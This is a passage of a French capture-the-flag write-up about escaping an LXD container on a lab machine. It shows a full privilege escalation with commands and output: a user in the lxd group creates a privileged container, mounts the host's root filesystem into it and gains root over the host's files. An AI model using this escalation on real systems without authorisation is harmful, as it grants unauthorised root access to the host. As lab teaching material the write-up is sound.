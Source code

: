 ```bash
sudo PORT=80 PUBLIC_IP=192.168.0.176 CONTAINER_IP=10.111.212.202 sudo -E bash -c 'iptables -t nat -I PREROUTING -i eth0 -p TCP -d $PUBLIC_IP --dport $PORT -j DNAT --to-destination $CONTAINER_IP:$PORT -m comment --comment "forward to the Apache2 container"'
```

Ceci explique pourquoi on s'est retrouvé dans le container... Mais comment en sortir ?  

Si notre utilisateur a les idées par très claires en revanche ses GIDs sont plus intéressants :p   

```plain
uid=1000(alex) gid=1000(alex) groups=1000(alex),24(cdrom),30(dip),46(plugdev),119(lpadmin),125(sambashare),997(lxd)
```

Peace on hearth
---------------

On trouve rapidement un article de *Josiah Beverton* expliquant [comment s'échapper du container LXD](https://reboare.github.io/lxd/lxd-escape.html).  

Il suffit donc de reproduire les étapes de l'article. La seule différence c'est que les machines sur ces plateformes de CTF n'ont généralement pas d'accès Internet, il faut donc réutiliser un container déjà présent sur la machine.  

Le principe de l'exploitation est similaire à ce qu'il peut se faire avec Docker : on va créer un nouveau container sur lequel le système de fichier hôte sera accessible en totalité. Une fois dans le container on est en quelque sorte *upgradés* au lieu de *downgradés* :p   

```plain
alex@aloha:/tmp/.devloop$ lxc image list
+-------+--------------+--------+--------------------------------------+--------+----------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |             DESCRIPTION              |  ARCH  |   SIZE   |         UPLOAD DATE          |
+-------+--------------+--------+--------------------------------------+--------+----------+------------------------------+
|       | 86656dfa70d5 | no     | Ubuntu bionic amd64 (20190321_07:42) | x86_64 | 121.43MB | Mar 21, 2019 at 5:59pm (UTC) |
+-------+--------------+--------+--------------------------------------+--------+----------+------------------------------+
|       | f68aac3ef6f1 | no     | Ubuntu bionic i386 (20190321_07:42)  | i686   | 122.70MB | Mar 21, 2019 at 5:59pm (UTC) |
+-------+--------------+--------+--------------------------------------+--------+----------+------------------------------+
alex@aloha:/tmp/.devloop$ lxc init f68aac3ef6f1 devloop -c security.privileged=true
Creating devloop
alex@aloha:/tmp/.devloop$ mkdir yolo
alex@aloha:/tmp/.devloop$ lxc config device add devloop mydevice disk source=/ path=/tmp/.devloop/yolo recursive=true
Device mydevice added to devloop
alex@aloha:/tmp/.devloop$ lxc start devloop
alex@aloha:/tmp/.devloop$ lxc exec devloop bash
root@devloop:~# id
uid=0(root) gid=0(root) groups=0(root)
root@devloop:~# pwd
/root
root@devloop:~# ls -alR
.:
total 8
drwx------ 1 root root   30 Mar 21 07:42 .
drwxr-xr-x 1 root root  122 Mar 25 09:41 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
root@devloop:~# cd /tmp/.devloop/yolo
root@devloop:/tmp/.devloop/yolo# ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  swapfile  sys  tmp  usr  var  vmlinuz  vmlinuz.old
```